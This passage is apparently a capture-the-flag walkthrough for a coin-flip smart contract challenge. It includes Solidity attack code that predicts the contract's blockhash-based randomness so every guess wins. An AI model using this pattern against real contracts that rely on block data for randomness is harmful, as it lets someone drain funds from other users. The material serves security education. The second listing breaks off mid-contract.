 <br/>

- The smart contract use the `block number` for generating a random number. But the `block number` can be guessed in advance.

- So in a separate smart contract we are gonna catch the `block number` and decide in advance what to send to the `flip()` function.

- As we need to iterate the action 10 times to solve the problem, we can't use a loop.

1. In remix or foundry write and deploy a smart contract to hack `Coinflip`

- You can import `coinflip.sol` or make an interface of it for the separate contract. As we need to interact with it.

or

- The import way:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./CoinFlip.sol";

contract Test {
    using SafeMath for uint256;
    CoinFlip public coinFlip;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint256 public currNumber = 0;

    constructor(address conFlipAddress) public {
        coinFlip = CoinFlip(conFlipAddress);
    }

    function IncreaseItBy1() public {
        coinFlip.flip(getBool());
    }

    function getBool() private view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip1 = blockValue.div(FACTOR);
        bool side = coinFlip1 == 1 ? true : false;
        return side;
    }
}
```
or 

1 - You can just do a double contract (2 smart contract written into 1 solidity file)

2 Deploy to sepolia

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

```